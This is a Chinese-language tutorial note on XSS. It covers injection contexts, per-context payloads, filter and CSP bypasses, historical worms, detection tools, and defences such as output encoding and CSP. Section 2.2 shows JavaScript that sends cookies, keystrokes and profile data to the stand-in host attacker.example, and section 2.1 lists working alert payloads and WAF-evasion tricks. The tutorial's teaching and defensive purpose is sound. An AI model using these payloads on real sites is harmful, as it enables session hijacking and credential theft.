

# XSS 跨站脚本详解

- 日期：2026-11-04
- 所属大纲阶段：第 3 阶段 Web 安全
- 参考资料：PortSwigger Web Security Academy（Cross-site scripting 全模块）、OWASP XSS Prevention Cheat Sheet、OWASP DOM XSS Cheat Sheet、HTML5 Security Cheatsheet（HTML5SEC）、MDN（CSP）
- 前置阅读：[01-Web前端常见漏洞与攻击](01-Web前端常见漏洞与攻击.md)
- 说明：所有 payload 均为最小教学演示，仅可在本地靶场（DVWA、PortSwigger Academy、自建虚拟机）中复现。

---

## 1. 原理深入：为什么 XSS 能成立

### 1.1 浏览器的信任模型

浏览器对同一个 origin（协议 + 域名 + 端口三元组）下的所有脚本**一视同仁**：无论代码是谁写的，只要页面把它加载/注入进来，它就拥有该页面的全部权限——读 DOM、发同源请求、读非 HttpOnly 的 Cookie、调用 `navigator.geolocation` 等敏感 API。

XSS 的本质：**攻击者的输入被浏览器判定为「页面自己的代码」**。此后同源策略反而成为攻击者的保护伞——防御方无法区分合法脚本与注入脚本。

### 1.2 注入点上下文（Context）——XSS 的核心知识点

同一段输入，落在不同上下文里，需要的逃逸方式与编码完全不同。判断上下文是分析与修复的第一步：

| 上下文 | 示例位置 | 逃逸思路 | 危险 sink |
|---|---|---|---|
| HTML 元素体 | `<div>INPUT</div>` | 直接注入标签 `<script>` / `` | `innerHTML`、`document.write` |
| HTML 属性 | `<input value="INPUT">` | `"` 逃逸属性后加事件 `onfocus=autofocus` | `element.setAttribute` |
| JS 字符串 | `<script>var x='INPUT'</script>` | `'` 逃逸 + `;payload;//` 闭合尾部 | `eval`、`setTimeout("...")` |
| JS 模板/代码 | `var x = INPUT`（无引号） | 直接注入表达式 | 同上 |
| URL 属性 | `<a href="INPUT">` | `javascript:alert(1)//` | `location = INPUT` |
| CSS | `<div style="INPUT">` | `expression()`（仅旧 IE）/ `</style>` 逃逸 | `element.style.cssText` |

### 1.3 三种类型的完整数据流



DOM 型的检测特殊性：WAF 与服务端日志都看不到 payload（若藏在 `#` 之后，fragment 甚至不会发送到服务端），必须在前端审计或用浏览器代理检测。

---

## 2. 攻击方式详解

### 2.1 手工测试流程

1. **画数据流**：每个输入点 → 它最终出现在响应的哪个上下文。
2. **探针**：提交唯一标记 `mki7f3` 搜索响应定位回显位置。
3. **按上下文构造 payload**：

```html
<!-- HTML 体上下文，绕过 <script> 过滤的常见变体 -->

<svg onload=alert(1)>
<details open ontoggle=alert(1)>
<body onresize=alert(1)>

<!-- 属性上下文（输入被双引号包裹） -->
" onmouseover=alert(1) x="
" autofocus onfocus=alert(1) x="

<!-- JS 单引号字符串上下文 -->
';alert(1);//
'-alert(1)-'

<!-- href 属性上下文 -->
javascript:alert(1)
data:text/html;base64,<base64编码的alert页面>
```

4. **事件处理器清单**（WAF 拦截 `onerror`/`onload` 时的替代）：`onpointerdown` `onanimationstart`（配合 `<style>`）、`ontoggle`（配合 `<details>`）、`onfocus`（配合 `autofocus`）。
5. **编码绕过**：HTML 实体（`&#106;` = j）、URL 编码、Unicode 转义（`\u0061lert`）、JS `eval(atob('base64'))`。注意：编码能否生效取决于「解码发生在浏览器解析的哪一层」——属性值内的 HTML 实体会被解码，字符串里的 `\u` 由 JS 引擎解码。

### 2.2 利用阶段：拿到 XSS 之后做什么（靶场演示清单）

```js
// 1. 窃取会话（若 Cookie 未设 HttpOnly）
fetch('//attacker.example/?c=' + document.cookie);

// 2. 键盘记录（绑定在搜索框/登录框上）
document.querySelector('#password').addEventListener('input', e =>
  fetch('//attacker.example/?k=' + e.data));

// 3. 钓鱼改写：把整页替换成假登录表单，提交到攻击者服务器
// 4. 以受害者身份发请求（比 CSRF 更强：能读响应）
fetch('/api/profile').then(r => r.text()).then(t =>
  fetch('//attacker.example/', {method:'POST', body: t}));

// 5. 持久化：把 payload 注入个人资料等存储型字段，受害者每次登录都触发
```

BeEF（Browser Exploitation Framework）把上述能力打包成命令面板，CTF/红队授权测试常用。

### 2.3 CSP 与过滤器绕过（进阶）

- **dangling markup 注入**：CSP 阻止脚本执行时，注入未闭合标签窃取后续页面内容：
  ``。
- **WAF 关键字绕过**：`<scr<script>ipt>`（过滤一次）、字符串拼接 `ale"+"rt`、注释混淆 `on/**/error`、双 URL 编码（`%253C`，服务端二次解码场景）。

---

## 3. 真实案例

- **Samy 蠕虫（2005, MySpace）**：史上最著名 XSS 蠕虫。Samy Kamkar 在个人资料注入脚本，访问其主页者被自动加好友并写入同样 payload，20 小时感染超 100 万账户，导致 MySpace 全站停机。展示了「存储型 XSS + 自传播」的组合威力。
- **TweetDeck（2014）**：存储型 XSS 蠕虫，推文包含 `♥` 字符触发，自动转推，约 8 万账户受影响、Twitter 紧急下线 TweetDeck。
- **Apache.org（2010）/ 各种 issue tracker**：JIRA/管理员界面的 XSS 用于窃取管理员会话后进入内网。

---

## 4. 检测与发现

- **手工**：Burp Suite（Repeater/Intruder + payload 列表）、浏览器 DevTools 断点追踪 DOM 数据流。
- **自动化**：DOM Invader（Burp 浏览器插件，自动标注 source/sink 及被污染的数据流）、headless 扫描器（探测 alert 触发）。
- **代码审计（防患）**：全库搜索 sink：`innerHTML`、`outerHTML`、`document.write`、`insertAdjacentHTML`、`eval`、`new Function`、`setTimeout/setInterval`（字符串参数）、`jQuery $()`、`v-html`、`dangerouslySetInnerHTML`、`element.srcdoc`、`location =`。

---

## 5. 防御详解

### 5.1 输出编码矩阵（OWASP 推荐规则，按上下文）

| 上下文 | 编码 |
|---|---|
| HTML 元素体 | HTML 实体编码 `< &lt;` `> &gt;` `& &amp;` |
| HTML 属性 | 同上 + `"` `'` 编码，属性值必须用引号包裹 |
| JS 字符串 | `\xHH` 或 `\uXXXX`，JSON 序列化最佳实践 |
| URL 参数 | URL 编码（且只允许 `http(s):`/相对路径，拒绝 `javascript:`） |
| CSS | 不放用户输入进 CSS；必须时用 CSS 转义并严格白名单 |

**关键理解**：不存在「一次编码走天下」。输入校验在前，输出编码在渲染点，且编码必须知道目标上下文——这就是为什么纯前端「过滤器」（黑名单）不可靠而模板引擎的自动转义可靠。

### 5.2 框架层

- React `｛...｝` / Vue `{{ }}` 默认安全转义；**高危出口**：`dangerouslySetInnerHTML`、`v-html`、`href={userInput}`（React 不校验 URL scheme）。
- 服务端模板（Jinja2 自动转义需开启 `autoescape`、Thymeleaf 默认转义）确认未被 `|safe` / `th:utext` 滥用。

### 5.3 内容安全策略（CSP）三层递进

```
# 1. 基础：只允许同源脚本，禁内联
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'

# 2. nonce：每次响应生成随机 nonce，仅该 nonce 的内联脚本可执行
Content-Security-Policy: script-src 'nonce-4AEemGb0JTt' 'strict-dynamic'

# 3. Trusted Types（现代浏览器）：从 API 层面禁止危险 sink 接收字符串
Content-Security-Policy: require-trusted-types-for 'script'
```

`strict-dynamic` 让脚本再信任其加载的脚本，解决第三方库链式加载问题。

### 5.4 纵深防御清单

1. HttpOnly + Secure + SameSite Cookie（限制窃取）。
2. CSP（限制执行）。
3. 框架自动转义 + 代码规范禁危险 sink（ESLint 规则 `no-restricted-syntax` + CR 检查）。
4. 输入白名单校验（缩小注入面）。
5. 站点隔离（Site Isolation 已是浏览器默认）+ 敏感域分离（主站与 UGC 域分离，如新浪微博的 weibo.com vs weibo.cn 历史实践）。
6. 自动化检测：CI 中 DOM Invader 类扫描、定期 DAST。

---

## 6. 常见误区

- ❌「输入过滤了 `<script>` 就安全」→ `` 一票否决。
- ❌「数据来自数据库/内部系统，可信」→ 存储型 XSS 恰恰说明：**只要数据曾经过用户之手，输出时就必须编码**（包括二阶注入：数据先入库再在其他页面渲染）。
- ❌「用了 HTTPS 就没有 XSS」→ 加密传输与内容注入无关。
- ❌「CSP 设了就完事」→ 允许 `unsafe-inline` 或宽泛 `script-src *` 的 CSP 形同虚设，需用 CSP 报告端点（`report-uri`）持续验证。

---

## 复习自查

- [ ] 能对任意注入点判断其上下文并写出对应逃逸 payload
- [ ] 能解释 DOM 型 XSS 为什么服务端日志看不到 payload
- [ ] 能写出 dangling markup 注入并说明它绕过的是什么
- [ ] 能为一个 SPA 设计合理的 CSP（nonce + strict-dynamic）
- [ ] 能审计一段前端代码找出全部 sink

## 延伸实验（labs 计划）

1. PortSwigger Academy XSS 全模块（约 40+ labs，含上下文逃逸、CSP 绕过、DOM XSS）。
2. DVWA XSS 三模块 Low→Impossible 源码对照。
3. 自建 demo：Express + EJS，故意犯 5 类上下文错误，再逐一修复。

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 归档笔记 · 「1.3 三种类型的完整数据流」节 · 反射型/存储型/DOM 型三链对比 | flowchart LR |
